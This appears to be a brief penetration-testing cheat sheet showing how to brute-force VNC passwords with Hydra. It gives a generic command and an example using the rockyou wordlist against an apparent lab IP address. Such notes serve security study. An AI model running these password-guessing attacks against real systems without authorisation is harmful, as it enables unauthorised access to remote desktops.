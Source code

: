 # Hydra - VNC

```
hydra -P [WORDLIST] [TARGET-IP] vnc
```
Example:
```
hydra -P /usr/share/wordlists/rockyou.txt 10.10.227.171 vnc
```
* VNC does not use usernames
* You can use -V or -vV for verbose output

